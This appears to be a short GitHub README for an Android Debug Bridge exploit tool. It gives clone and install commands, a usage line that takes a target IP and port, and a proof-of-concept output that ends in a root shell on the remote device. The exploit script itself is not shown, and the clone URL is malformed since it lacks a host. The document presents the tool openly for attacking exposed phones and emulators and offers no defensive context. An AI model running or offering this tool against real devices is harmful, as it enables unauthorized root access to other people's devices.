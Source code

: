 # Android Debug Bridge Exploit

This Exploit let them exploit which android phone or emulator running on android debug bridge.
Also this exploit should be run only linux oss. 

# Installition

+ git clone https://Alperenae/androidexp
+ cd androidexp
+ chmod +x exploitadb.py
+ apt-get install python3

# Usage

`python3 exploitadb.py -t/--target [TargetIP] --port [TargetPort]`

# Proof Of Consept [PoC]

`[*] Trying Connection`					  
+ `connected to [***.***.**.**]:[****]`			  

`[*] Trying To Root Shell`
+ `root@ln_opi+:/ #`
